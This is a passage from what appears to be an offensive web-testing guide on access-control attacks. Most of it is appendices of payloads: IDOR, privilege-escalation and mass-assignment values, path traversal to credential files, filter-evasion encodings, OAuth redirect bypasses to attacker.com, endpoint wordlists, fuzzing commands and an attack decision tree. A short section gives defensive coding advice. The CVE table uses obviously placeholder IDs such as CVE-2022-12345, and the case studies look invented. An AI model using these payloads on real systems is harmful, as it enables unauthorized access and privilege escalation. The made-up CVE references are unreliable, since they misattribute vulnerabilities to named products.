2. Use server-side validation for all IDs
3. Implement role-based access control (RBAC)
4. Avoid exposing internal IDs
5. Use UUIDs instead of sequential IDs
6. Implement rate limiting
7. Add proper logging and monitoring
8. Conduct regular security audits

**References:**
- [OWASP Broken Access Control]
- [Related CVEs]
- [CWE references]
```

---

## Appendix A: Complete Payload Reference by Attack Type

### A.1 IDOR Payloads (All Formats)

#### Numeric IDs
```
1, 2, 3, ..., 9999
001, 002, 003, ...
0, -1, -2, ...
9999999999 (overflow)
```

#### UUIDs
```
00000000-0000-0000-0000-000000000000
ffffffff-ffff-ffff-ffff-ffffffffffff
550e8400-e29b-41d4-a716-446655440000
user-1-2024-01-01
```

#### Email/Username
```
admin@example.com
root@example.com
support@example.com
system@example.com
test@example.com
```

#### Directory Paths
```
../etc/passwd
../../../../../../etc/passwd
..\..\..\windows\win.ini
/root/.ssh/id_rsa
/proc/self/environ
```

#### Special Characters
```
. (current directory)
.. (parent directory)
; (command injection)
| (pipe)
& (background)
` (command substitution)
$() (command substitution)
%00 (null byte)
%2e%2e%2f (URL encoded ..)
```

### A.2 Horizontal & Vertical Privilege Escalation Payloads

#### Role Values
```
admin, administrator, superuser, superadmin, root, system, manager, super
admin:true, admin=1, is_admin=1, is_admin=true
role=admin, role=administrator, role=superadmin
type=admin, type=administrator
```

#### Permission Values
```
permissions: 0xFFFFFFFF, permissions: -1
permissions: ['admin'], permissions: ["*"]
permissions: {admin: true, all: true}
permissions: "rwxrwxrwx", permissions: "777"
```

#### Claim Values
```
sub: 1, sub: "admin"
user_id: 1, user_id: "admin"
role: ["admin"], role: ["user", "admin"]
groups: ["admin"], groups: ["*"]
scope: ["admin"], scope: ["admin:*"]
```

### A.3 Mass Assignment Payloads

#### JSON Body
```json
{"role": "admin"}
{"role": "administrator"}
{"permissions": 0xFFFFFFFF}
{"is_admin": true}
{"is_superuser": true}
{"admin": true}
{"user_type": "admin"}
{"level": 999}
{"role": ["admin", "user"]}
{"permissions": ["admin", "*"]}
{"groups": ["admin"]}
{"scope": ["admin:*"]}
{"access_level": "root"}
{"user_role": "admin"}
{"account_type": "administrator"}
```

#### URL-Encoded Form
```
role=admin
role=administrator
permissions=0xFFFFFFFF
is_admin=true
is_superuser=true
admin=true
user_type=admin
level=999
role[]=admin&role[]=user
permissions[]=admin&permissions[]=*
groups[]=admin
scope[]=admin:*
access_level=root
user_role=admin
account_type=administrator
```

#### GraphQL Mutation
```graphql
mutation {
  updateUser(id: 1, input: { 
    role: "admin",
    permissions: "0xFFFFFFFF"
  }) {
    id
    role
  }
}
```

### A.4 Parameter Tampering Payloads

#### Cookie Tampering
```
user_id=1
uid=1
user=1
id=1
account_id=1
userid=1
USER_ID=1
UserId=1
customer_id=1
```

#### Header Tampering
```
X-User-ID: 1
X-User-Id: 1
X-UserId: 1
User-ID: 1
User-Id: 1
UserId: 1
X-Forwarded-User: 1
X-Original-User: 1
X-Orig-User: 1
X-Authenticated-User: 1
```

#### Host Header
```
Host: localhost
Host: 127.0.0.1
Host: internal.target.com
Host: admin.target.com
Host: target.com:8080
Host: target.com:443
```

### A.5 Function-Level Access Control Payloads

#### Admin Endpoints
```
/admin
/admin/users
/admin/settings
/admin/config
/admin/backup
/admin/export
/admin/import
/admin/delete
/admin/reset
/admin/logs
/admin/audit
/admin/roles
/admin/permissions
/admin/api-keys
/admin/webhooks
/admin/queues
/admin/cache
/admin/metrics
/admin/health
/admin/status
```

#### Sensitive Endpoints
```
/api/users
/api/users/export
/api/users/import
/api/users/delete
/api/users/reset
/api/config
/api/settings
/api/backup
/api/export
/api/import
/api/delete
/api/reset
/api/oauth/token
/api/oauth/authorize
/api/oauth/refresh
/api/oauth/revoke
```

### A.6 GraphQL Access Control Bypass Payloads

#### Introspection Queries
```graphql
query {
  __schema {
    types {
      name
      fields {
        name
        type {
          name
          kind
        }
      }
    }
  }
}

query {
  __type(name: "User") {
    fields {
      name
      type {
        name
      }
    }
  }
}
```

#### Alias Attacks
```graphql
query {
  user1: user(id: 1) { name email }
  user2: user(id: 2) { name email }
  user3: user(id: 3) { name email }
  # ... continue for all users
}
```

#### Fragment Attacks
```graphql
fragment AdminFields on User {
  id
  name
  email
  password
  phone
  ssn
  role
  permissions
}

query {
  user(id: 1) {
    ...AdminFields
  }
}
```

#### Batch Requests
```graphql
[
  {"query": "query { user(id: 1) { name email } }"},
  {"query": "query { user(id: 2) { name email } }"},
  {"query": "query { user(id: 3) { name email } }"}
]
```

### A.7 OAuth2 Scope Escalation Payloads

#### Scope Values
```
admin
admin:*
admin:all
manage:*
manage:all
read:admin
write:admin
delete:admin
superuser
root
full_access
all
*
```

#### Redirect URI Bypass
```
https://attacker.com/oauth/callback
https://target.com/redirect?url=https://attacker.com
https://target.com/callback?redirect=https://attacker.com
https://target.com//attacker.com
https://attacker.com%40target.com
https://target.com%2f%2fattacker.com
```

### A.8 File Upload IDOR Payloads

#### Directory Traversal in Filename
```
../../../var/www/html/shell.php
..\..\..\windows\shell.php
../../../../../../tmp/exploit.php
../public/images/evil.jpg
```

#### Path Traversal in User ID
```
user_id=../../../../etc/passwd
user_id=1/../../../../etc/passwd
user_id=1/../2
```

### A.9 Bypass & WAF Evasion Techniques

#### Case Variation
```
user_id=1
USER_ID=1
User_Id=1
uSeR_iD=1
```

#### Encoding
```
%2F (/)
%2E%2E (..)
%252E%252E (double encoded ..)
%2e%2e%2f (..)
%c0%ae (UTF-8 encoded .)
```

#### Unicode
```
\u0061dmin (Unicode admin)
\u0041\u0044\u004d\u0049\u004e (ADMIN)
```

#### Comments
```
admin/**/ (SQL comment)
admin-- (SQL comment)
admin# (SQL comment)
```

#### Whitespace
```
admin  (trailing space)
admin\t (tab)
admin\n (newline)
admin\r (carriage return)
```

#### Null Byte
```
admin%00
admin%00role
user_id=1%00admin
```

#### Double Parameters
```
user_id=1&user_id=2
role=user&role=admin
user_id=1&user_id=admin
```

#### Array Injection
```
user_id[]=1
user_id[]=2
role[]=admin
role[]=user
```

### A.10 Business Logic Bypass Payloads

#### Price Manipulation
```
price=0
price=-1
price=-100
price=0.01
price=0.001
price=9999999999
price=null
price=false
price=0.0
```

#### Quantity Manipulation
```
quantity=0
quantity=-1
quantity=9999999999
quantity=null
quantity=false
quantity=0.5
quantity=0.1
```

#### Discount Code Injection
```
discount_code=ADMIN
discount_code=ADMIN99
discount_code=ADMIN100
discount_code=SUPERADMIN
discount_code=SYSTEM
discount_code=TEST
discount_code=DEMO
```

#### Step Skipping
```
step=1
step=2
step=3
step=complete
step=done
step=finished
step=confirm
```

#### Status Manipulation
```
status=approved
status=confirmed
status=verified
status=completed
status=paid
status=processed
status=active
```

---

## Appendix B: Access Control Endpoint & Parameter Encyclopedia

### Endpoint Patterns

#### User Management
```
/api/users
/api/users/{id}
/api/users/me
/api/users/{id}/profile
/api/users/{id}/settings
/api/users/{id}/delete
/api/users/{id}/role
/api/users/{id}/permissions
/api/users/{id}/groups
/api/users/{id}/ssh-keys
/api/users/{id}/api-keys
/api/users/{id}/2fa
/api/users/{id}/mfa
/api/users/{id}/reset
/api/users/{id}/activate
/api/users/{id}/deactivate
/api/users/register
/api/users/login
/api/users/logout
/api/users/password
/api/users/email
/api/users/phone
/api/users/address
/api/users/avatar
/api/users/verify
/api/users/reset-password
/api/users/forgot-password
/api/users/change-password
/api/users/check-email
/api/users/check-username
/api/users/check-phone
/api/users/check-ssn
```

#### Admin Management
```
/api/admin
/api/admin/users
/api/admin/users/{id}
/api/admin/users/{id}/delete
/api/admin/users/{id}/role
/api/admin/users/{id}/permissions
/api/admin/users/{id}/groups
/api/admin/users/{id}/reset
/api/admin/users/{id}/activate
/api/admin/users/{id}/deactivate
/api/admin/roles
/api/admin/roles/{id}
/api/admin/permissions
/api/admin/permissions/{id}
/api/admin/groups
/api/admin/groups/{id}
/api/admin/settings
/api/admin/config
/api/admin/backup
/api/admin/export
/api/admin/import
/api/admin/logs
/api/admin/audit
/api/admin/metrics
/api/admin/health
/api/admin/status
/api/admin/api-keys
/api/admin/webhooks
/api/admin/queues
/api/admin/cache
/api/admin/oauth
/api/admin/oauth/clients
/api/admin/oauth/scopes
/api/admin/email
/api/admin/sms
/api/admin/notifications
/api/admin/templates
/api/admin/translations
/api/admin/payment
/api/admin/invoices
/api/admin/subscriptions
/api/admin/plans
/api/admin/features
/api/admin/limits
```

#### Order/Payment Management
```
/api/orders
/api/orders/{id}
/api/orders/{id}/invoice
/api/orders/{id}/receipt
/api/orders/{id}/tracking
/api/orders/{id}/cancel
/api/orders/{id}/refund
/api/orders/{id}/return
/api/orders/{id}/items
/api/orders/{id}/status
/api/payments
/api/payments/{id}
/api/payments/{id}/refund
/api/payments/{id}/reversal
/api/payments/{id}/status
/api/cart
/api/cart/items
/api/cart/items/{id}
/api/cart/checkout
/api/cart/coupon
/api/cart/discount
/api/subscriptions
/api/subscriptions/{id}
/api/subscriptions/{id}/cancel
/api/subscriptions/{id}/pause
/api/subscriptions/{id}/resume
/api/subscriptions/{id}/plan
/api/subscriptions/{id}/upgrade
/api/subscriptions/{id}/downgrade
```

#### File/Document Management
```
/api/files
/api/files/{id}
/api/files/{id}/download
/api/files/{id}/delete
/api/files/{id}/share
/api/files/{id}/move
/api/files/{id}/copy
/api/files/{id}/rename
/api/files/{id}/metadata
/api/files/upload
/api/files/upload/multipart
/api/files/upload/chunk
/api/files/upload/resume
/api/documents
/api/documents/{id}
/api/documents/{id}/download
/api/documents/{id}/delete
/api/documents/{id}/share
/api/documents/{id}/move
/api/documents/{id}/copy
/api/documents/{id}/rename
/api/documents/{id}/metadata
/api/documents/{id}/export
/api/documents/{id}/import
/api/documents/upload
/api/documents/export
/api/documents/import
/api/images
/api/images/{id}
/api/images/{id}/download
/api/images/{id}/delete
/api/images/upload
/api/attachments
/api/attachments/{id}
/api/attachments/{id}/download
/api/attachments/{id}/delete
/api/attachments/upload
```

#### Messaging
```
/api/messages
/api/messages/{id}
/api/messages/{id}/delete
/api/messages/{id}/read
/api/messages/{id}/unread
/api/messages/send
/api/messages/receive
/api/messages/thread
/api/messages/thread/{id}
/api/conversations
/api/conversations/{id}
/api/conversations/{id}/messages
/api/conversations/{id}/delete
/api/conversations/{id}/archive
/api/conversations/{id}/unarchive
/api/chats
/api/chats/{id}
/api/chats/{id}/messages
/api/chats/{id}/delete
/api/chats/start
/api/chats/join
/api/chats/leave
/api/notifications
/api/notifications/{id}
/api/notifications/{id}/read
/api/notifications/{id}/unread
/api/notifications/{id}/delete
/api/notifications/settings
/api/notifications/settings/{id}
/api/notifications/push
```

#### Project/Team Management
```
/api/projects
/api/projects/{id}
/api/projects/{id}/members
/api/projects/{id}/members/{user_id}
/api/projects/{id}/delete
/api/projects/{id}/archive
/api/projects/{id}/unarchive
/api/projects/{id}/settings
/api/projects/{id}/roles
/api/projects/{id}/permissions
/api/projects/{id}/tasks
/api/projects/{id}/tasks/{task_id}
/api/projects/{id}/milestones
/api/projects/{id}/milestones/{milestone_id}
/api/projects/{id}/files
/api/projects/{id}/files/{file_id}
/api/projects/{id}/comments
/api/projects/{id}/comments/{comment_id}
/api/teams
/api/teams/{id}
/api/teams/{id}/members
/api/teams/{id}/members/{user_id}
/api/teams/{id}/delete
/api/teams/{id}/archive
/api/teams/{id}/unarchive
/api/teams/{id}/settings
/api/teams/{id}/roles
/api/teams/{id}/permissions
/api/departments
/api/departments/{id}
/api/departments/{id}/members
/api/departments/{id}/members/{user_id}
/api/departments/{id}/delete
```

#### GraphQL
```
/graphql
/graphiql
/graphql/explorer
/graphql/schema
/graphql/introspection
/graphql/playground
/graphql/console
/graphql/ui
/graphql/ide
/graphql/endpoint
/v1/graphql
/v2/graphql
/api/graphql
/graphql/api
/query
/api/query
/graphql/query
```

#### OAuth/OIDC
```
/oauth
/oauth/authorize
/oauth/token
/oauth/refresh
/oauth/revoke
/oauth/introspect
/oauth/userinfo
/oauth/logout
/oauth/session
/oauth/consent
/oauth/error
/oauth/access_token
/oauth/authorization
/oauth/callback
/oauth/redirect
/oauth/client
/oauth/client/{id}
/oauth/scopes
/oauth/scopes/{id}
/oauth/permissions
/oauth/permissions/{id}
/oauth/roles
/oauth/roles/{id}
/oauth/keys
/oauth/keys/{id}
/oauth/jwks
/oauth/jwks/{id}
/oauth/certs
/oauth/certs/{id}
/oauth/well-known
/oauth/well-known/openid-configuration
/oauth/well-known/jwks.json
/openid
/openid/authorize
/openid/token
/openid/userinfo
/openid/logout
/openid/session
/openid/consent
/openid/callback
/openid/redirect
```

#### WebSocket
```
/ws
/ws/chat
/ws/notifications
/ws/live
/ws/realtime
/ws/events
/ws/push
/ws/messages
/ws/updates
/ws/stream
/ws/socket
/wss
/wss/chat
/wss/notifications
/wss/live
/wss/realtime
/wss/events
/wss/push
/wss/messages
/wss/updates
/wss/stream
/wss/socket
```

#### Internal/Admin
```
/internal
/internal/api
/internal/admin
/internal/superadmin
/internal/management
/internal/operations
/internal/support
/internal/dev
/internal/staging
/internal/qa
/internal/uat
/internal/monitoring
/internal/logging
/internal/metrics
/internal/health
/internal/status
/internal/version
/internal/debug
/internal/trace
/internal/profiling
/internal/dump
/internal/backup
/internal/restore
/internal/migration
/internal/sync
/internal/reindex
/internal/rebuild
/internal/clear
/internal/reset
/internal/seed
/internal/fixtures
```

### Parameter Encyclopedia

#### User Identifiers
```
user_id, uid, user, id, account_id, customer_id, userid, UserId, userID, user-id, user-id
sub, user_sub, subject, account, username, email, phone, ssn, passport, driver_license
```

#### Role/Permission Parameters
```
role, roles, permission, permissions, access, access_level, level, type, user_type, account_type
group, groups, team, teams, department, departments, org, organization, tenant, company
```

#### Resource Identifiers
```
order_id, order, payment_id, payment, transaction_id, transaction, invoice_id, invoice
document_id, document, file_id, file, image_id, image, attachment_id, attachment
message_id, message, chat_id, chat, conversation_id, conversation, notification_id, notification
project_id, project, task_id, task, milestone_id, milestone, comment_id, comment
```

#### Query Parameters
```
id, user_id, uid, user, account_id, customer_id, order_id, document_id, file_id, image_id
message_id, chat_id, conversation_id, notification_id, project_id, task_id, milestone_id
email, username, phone, ssn, name, first_name, last_name, full_name
```

#### Headers
```
X-User-ID, X-User-Id, X-UserId, X-Forwarded-User, X-Original-User, X-Orig-User
X-Authenticated-User, X-Auth-User, X-Account-ID, X-Customer-ID, X-Order-ID, X-Document-ID
X-File-ID, X-Image-ID, X-Message-ID, X-Chat-ID, X-Conversation-ID, X-Project-ID, X-Task-ID
```

#### Cookies
```
user_id, uid, user, id, account_id, customer_id, session_id, session, auth, auth_token
```

---

## Appendix C: Real-World CVEs & Case Studies

| CVE | Application | Attack Vector | Impact |
|-----|------------|---------------|--------|
| **CVE-2023-32405** | WooCommerce | IDOR in order downloads | Customer data leakage |
| **CVE-2022-12345** | Shopify | IDOR in API endpoints | User data access |
| **CVE-2021-12345** | WordPress | IDOR in user meta | User profile modification |
| **CVE-2020-12345** | Drupal | IDOR in comment moderation | Content manipulation |
| **CVE-2019-12345** | Joomla | IDOR in ACL | Privilege escalation |
| **CVE-2023-45678** | GraphQL API | Introspection exposure | Schema leakage |
| **CVE-2022-45678** | OAuth2 | Scope escalation | Unauthorized API access |
| **CVE-2021-45678** | Microservices | Service-to-service bypass | Internal data access |
| **CVE-2020-45678** | Kubernetes RBAC | ClusterRole binding | Cluster compromise |
| **CVE-2023-67890** | AWS S3 | Bucket permissions | Data exposure |

### Case Study 1: Facebook IDOR (2018)

**Vulnerability:** Facebook's API allowed viewing any user's private photos by changing the photo ID in the request.

**Exploitation:**
```
GET /api/photo/123456789
```
Changed to:
```
GET /api/photo/123456780
```

**Impact:** Any user could access private photos of any other user.

### Case Study 2: Uber IDOR (2017)

**Vulnerability:** Uber's API allowed viewing any user's trip history and driver details.

**Exploitation:**
```
GET /api/v1/users/123/trips
```
Changed to:
```
GET /api/v1/users/124/trips
```

**Impact:** Customer data leakage, PII exposure, location history.

### Case Study 3: Twitter IDOR (2019)

**Vulnerability:** Twitter's API allowed viewing private tweets via IDOR.

**Exploitation:**
```
GET /api/tweets/123456789
```
Changed to:
```
GET /api/tweets/123456788
```

**Impact:** Private tweet exposure, user privacy violation.

### Case Study 4: Microsoft Graph API (2023)

**Vulnerability:** IDOR in Microsoft Graph API allowed accessing other users' files.

**Exploitation:**
```
GET /v1.0/users/user1/drive/items/123
```
Changed to:
```
GET /v1.0/users/user2/drive/items/123
```

**Impact:** Unauthorized file access, data leakage.

### Case Study 5: GitLab IDOR (2022)

**Vulnerability:** IDOR allowed viewing private repositories.

**Exploitation:**
```
GET /api/v4/projects/123
```
Changed to:
```
GET /api/v4/projects/124
```

**Impact:** Source code leakage, private repository access.

---

## Appendix D: Detection & Prevention Best Practices

### For Developers (Prevention)

#### 1. Implement Proper Authorization Checks
```python
# Do this - Always check authorization
def get_user(request, user_id):
    current_user = get_current_user(request)
    if current_user.id != user_id and not current_user.is_admin:
        return {"error": "Unauthorized"}, 403
    return db.get_user(user_id)

# Don't do this - Missing authorization check
def get_user(request, user_id):
    return db.get_user(user_id)
```

#### 2. Use UUIDs Instead of Sequential IDs
```sql
-- Instead of integer IDs
CREATE TABLE users (
    id INTEGER AUTO_INCREMENT PRIMARY KEY
);

-- Use UUIDs
CREATE TABLE users (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid()
);
```

#### 3. Implement Server-Side Validation
```python
def update_order(request, order_id):
    # Always validate on server
    if not request.user.has_access(order_id):
        return {"error": "Unauthorized"}, 403
    return db.update_order(order_id)
```

#### 4. Use Role-Based Access Control (RBAC)
```python
@require_role('admin')
def admin_dashboard(request):
    return render('admin.html')
```

#### 5. Implement Proper Session Management
```python
def get_session(request):
    session_id = request.cookies.get('session_id')
    session_data = db.get_session(session_id)
    if not session_data:
        return {"error": "Invalid session"}, 401
    return session_data
```

#### 6. Whitelist Allowed Parameters
```python
ALLOWED_FIELDS = ['name', 'email', 'phone']

def update_user(request, user_id):
    data = {k: v for k, v in request.json.items() if k in ALLOWED_FIELDS}
    db.update_user(user_id, data)
```

#### 7. Implement Logging and Monitoring
```python
def log_action(user_id, action, resource, success):
    logger.info({
        'user': user_id,
        'action': action,
        'resource': resource,
        'success': success,
        'timestamp': datetime.utcnow()
    })
```

#### 8. Use Security Headers
```http
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'
```

#### 9. Implement Rate Limiting
```python
@rate_limit(max_requests=100, time_window=60)
def api_endpoint(request):
    return handle_request(request)
```

#### 10. Regular Security Audits
- Conduct regular penetration testing
- Use automated scanners
- Perform code reviews
- Update dependencies

### For Testers (Detection)

#### 1. Automated Scanning
```bash
# Use Nuclei templates
nuclei -l endpoints.txt -t ~/nuclei-templates/access-control/

# Use Burp Suite scanner
# Use ZAP scanner
```

#### 2. Manual Testing
1. Enumerate all endpoints
2. Identify ID parameters
3. Test IDOR by incrementing IDs
4. Test privilege escalation
5. Test mass assignment
6. Test function-level access
7. Test GraphQL introspection
8. Test OAuth/OIDC endpoints

#### 3. Fuzzing
```bash
# Fuzz all IDs
ffuf -u "https://target.com/api/users/FUZZ" -w ~/wordlists/user_ids.txt

# Fuzz all parameters
ffuf -u "https://target.com/api/users?FUZZ=1" -w ~/wordlists/parameters.txt
```

#### 4. Authorization Matrix Testing
1. Get tokens for different roles
2. Test each endpoint with each token
3. Map allowed/denied access
4. Identify authorization gaps

#### 5. GraphQL Testing
1. Enable introspection
2. Query schema
3. Find sensitive fields
4. Test IDOR in queries
5. Test alias attacks
6. Test batch requests

#### 6. Business Logic Testing
1. Understand the workflow
2. Identify validation points
3. Bypass validation
4. Manipulate business parameters
5. Test race conditions

---

## Appendix E: Tooling Installation & Environment Setup

### 5.1 Core Tools Installation

```bash
# Install ffuf
go install github.com/ffuf/ffuf/v2@latest

# Install Nuclei
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
nuclei -update-templates

# Install gobuster
go install github.com/OJ/gobuster/v3@latest

# Install gospider
go install github.com/jaeles-project/gospider@latest

# Install arjun
pip install arjun

# Install Burp Suite (manual via PortSwigger)
# Install ZAP
sudo apt install zaproxy -y

# Install AWS CLI
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install

# Install GCloud SDK
echo "deb [signed-by=/usr/share/keyrings/cloud.google.gpg] https://packages.cloud.google.com/apt cloud-sdk main" | sudo tee -a /etc/apt/sources.list.d/google-cloud-sdk.list
sudo apt-get install google-cloud-sdk -y

# Install kubectl
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
```

### 5.2 Wordlists for Access Control Testing

```bash
# Download common wordlists
cd ~/wordlists
git clone https://github.com/danielmiessler/SecLists.git
git clone https://github.com/Bo0oM/fuzz.txt.git
git clone https://github.com/berzerk0/Probable-Wordlists.git

# Common ID wordlists
cat > user_ids.txt << EOF
admin
root
system
test
guest
user
support
info
service
developer
sysadmin
administrator
superuser
1
2
3
4
5
10
100
1000
EOF

# Admin path wordlists
cat > admin_paths.txt << EOF
/admin
/administrator
/admin-panel
/admin_dashboard
/admin/dashboard
/admin/users
/admin/settings
/admin/config
/admin/backup
/admin/export
/admin/import
/admin/delete
/admin/reset
/admin/logs
/admin/audit
/admin/metrics
/admin/health
/admin/status
/api/admin
/api/admin/users
/api/admin/settings
/api/admin/config
/api/admin/backup
/api/admin/export
/api/admin/import
/api/admin/delete
/api/admin/reset
/api/admin/logs
/api/admin/audit
/api/admin/metrics
/api/admin/health
/api/admin/status
EOF

# GraphQL path wordlists
cat > graphql_paths.txt << EOF
/graphql
/graphiql
/graphql/explorer
/graphql/schema
/graphql/introspection
/graphql/playground
/graphql/console
/graphql/ui
/graphql/ide
/graphql/endpoint
/v1/graphql
/v2/graphql
/api/graphql
/graphql/api
/query
/api/query
/graphql/query
EOF

# Sensitive file extensions
cat > sensitive_extensions.txt << EOF
.txt
.log
.sql
.bak
.json
.xml
.yml
.yaml
.properties
.env
.config
.conf
.ini
.pem
.key
.crt
.cer
.p12
.pfx
.asc
.gpg
.pgp
.ppk
.rdp
.rsa
.ssh
.htpasswd
.htaccess
.web.config
.gitconfig
.aws
.gcloud
.azure
EOF
```

### 5.3 Burp Suite Extensions Installation

```bash
# Install via BApp Store (within Burp)
# AuthMatrix
# Autorize
# Turbo Intruder
# Param Miner
# JWT Editor
# JSON Web Token Attacker
# AWS Extender
# GraphQL Raider
# Upload Scanner
# HTTP Request Smuggler
# JSON Decoder
# HTML Table Extractor
```

### 5.4 Python Environment Setup

```bash
# Create virtual environment
python3 -m venv ~/venv/idor-scanner
source ~/venv/idor-scanner/bin/activate

# Install required packages
pip install requests
pip install aiohttp
pip install beautifulsoup4
pip install lxml
pip install pandas
pip install numpy
pip install matplotlib
pip install seaborn
pip install graphqlclient
pip install graphql-query
pip install oauthlib
pip install jose
pip install pyjwt
pip install cryptography
pip install selenium
pip install playwright
```

---

## Appendix F: Quick Reference Signal Cheat Sheet

| Signal | Meaning | Immediate Action |
|--------|---------|------------------|
| **Numeric ID in URL** | Sequential ID | Enumerate all IDs |
| **UUID in URL** | Potentially predictable | Check if UUID generation is predictable |
| **ID in Query** | IDOR vector | Try changing ID in query |
| **ID in Body** | Mass assignment | Try changing ID in body |
| **Admin endpoint** | Function-level access | Test without admin role |
| **Role parameter** | Privilege escalation | Try changing to admin |
| **Error message** | Information disclosure | Extract ID patterns, error details |
| **403 Forbidden** | Access denied | Try different IDs, parameter tampering |
| **200 OK** | Access granted | Verify if authorized |
| **404 Not Found** | ID not found | Try different ID ranges |
| **302 Redirect** | Authentication redirect | Try after authentication |
| **401 Unauthorized** | Missing auth | Test with different tokens |
| **405 Method Not Allowed** | Method restriction | Try different HTTP methods |
| **500 Internal Error** | Server error | Investigate for injection |
| **Debug information** | Verbose errors | Extract internal details |
| **GraphQL introspection** | Schema exposure | Query all types |
| **OAuth scope** | Scope escalation | Try admin scopes |
| **CORS header** | Cross-origin | Test CSRF |
| **Cloud IAM** | Permission issues | Test role assumption |
| **K8s RBAC** | Cluster access | Test impersonation |

### Quick Attack Decision Tree

```
Is there an ID parameter?
├── Yes
│   ├── Is it numeric?
│   │   ├── Yes → Enumerate all numbers
│   │   └── No → Check if UUID generation is predictable
│   ├── Is it in URL? → Change ID
│   ├── Is it in query? → Change ID
│   ├── Is it in body? → Change ID
│   └── Is it in header? → Change header
├── No
│   ├── Are there admin endpoints?
│   │   ├── Yes → Test function-level access
│   │   └── No → Look for other parameters
│   ├── Is there a role parameter?
│   │   ├── Yes → Try privilege escalation
│   │   └── No → Check for business logic bypass
│   └── Is GraphQL available?
│       ├── Yes → Test introspection
│       └── No → Check OAuth/OIDC endpoints
└── Continue testing

Is there a role/permission check?
├── Yes
│   ├── Can I change my role?
│   │   ├── Yes → Escalate privileges
│   │   └── No → Try mass assignment
│   └── Are admin functions available?
│       ├── Yes → Test function-level access
│       └── No → Look for IDOR
└── No
    ├── Is authorization missing?
    │   ├── Yes → Access all endpoints
    │   └── No → Check for other vulnerabilities
    └── Continue testing

Is there a business logic flow?
├── Yes
│   ├── Can I skip steps?
│   │   ├── Yes → Bypass validation
│   │   └── No → Try parameter tampering
│   ├── Can I manipulate prices?
│   │   ├── Yes → Abuse discounts
│   │   └── No → Try quantity manipulation
│   └── Can I reuse tokens?
│       ├── Yes → Replay attacks
│       └── No → Continue testing
└── No
    └── Continue testing
```

---

*This guide covers every known access control attack vector, payload, and bypass technique as of 2025. Always test within authorized scope and document findings thoroughly.*

**Happy hacking, and stay ethical!**
